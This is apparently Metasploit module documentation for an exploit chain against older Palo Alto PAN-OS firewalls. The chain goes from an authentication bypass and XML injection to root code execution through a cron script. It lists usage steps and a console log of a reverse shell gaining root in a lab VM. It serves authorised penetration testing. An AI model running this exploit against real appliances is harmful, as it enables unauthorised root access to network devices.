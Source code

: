 ## Description

This module exploits a chain of vulnerabilities in Palo Alto Networks products running
PAN-OS versions prior to 6.1.19, 7.0.19, 7.1.14, and 8.0.6. This chain starts by using
an authentication bypass flaw to to exploit an XML injection issue, which is then
abused to create an arbitrary directory, and finally gains root code execution by
exploiting a vulnerable cron script. This module uses an initial reverse TLS callback
to stage arbitrary payloads on the target appliance. The cron job used for the final
payload runs every 15 minutes by default and exploitation can take up to 20 minutes.

## Vulnerable Application

This exploit was specifically written against PAN-OS 7.1.0 runing in a QEMU (kvm) virtual machine.
This VM is not generally available, but the specific disk image used was `PA-VM-KVM-7.1.0.qcow2`.


## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/panos_readsessionvars```
3. ```set RHOST [IP]```
4. ```exploit```
5. You should get a session (eventually)

## Options

**CBHOST** The callback listener address if the default is not accurate (port forwarding, etc)

**CBPORT** The callback listener port


## Scenarios

```
msf5 exploit(linux/http/panos_readsessionvars) > exploit

[*] Started reverse TCP handler on 192.168.122.1:4444
[*] Creating our corrupted session ID...
[*] Verifying that we can access the debug console with our corrupted session ID...
[*] Calling Administrator.get to create directory under /opt/pancfg/mgmt/logdb/config/1/...
[*] Waiting up to 20 minutes for the cronjob to fire and execute...
[*] Waiting for a session, 1200 seconds left...
[*] Waiting for a session, 1169 seconds left...
[*] Waiting for a session, 1138 seconds left...
[*] Waiting for a session, 1107 seconds left...
[*] Waiting for a session, 1076 seconds left...
[*] Waiting for a session, 1044 seconds left...
[*] Waiting for a session, 1013 seconds left...
[*] Waiting for a session, 982 seconds left...
[*] Waiting for a session, 951 seconds left...
[*] Waiting for a session, 920 seconds left...
[+] Sending payload of 67 bytes to 192.168.122.98:39499...
[*] Command shell session 7 opened (192.168.122.1:4444 -> 192.168.122.98:44858) at 2018-05-05 15:45:02 -0500
[!] Remember to manually purge the base directory: 'rm -rf /opt/pancfg/mgmt/logdb/config/1/'
[*] Shutting down payload stager listener...

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
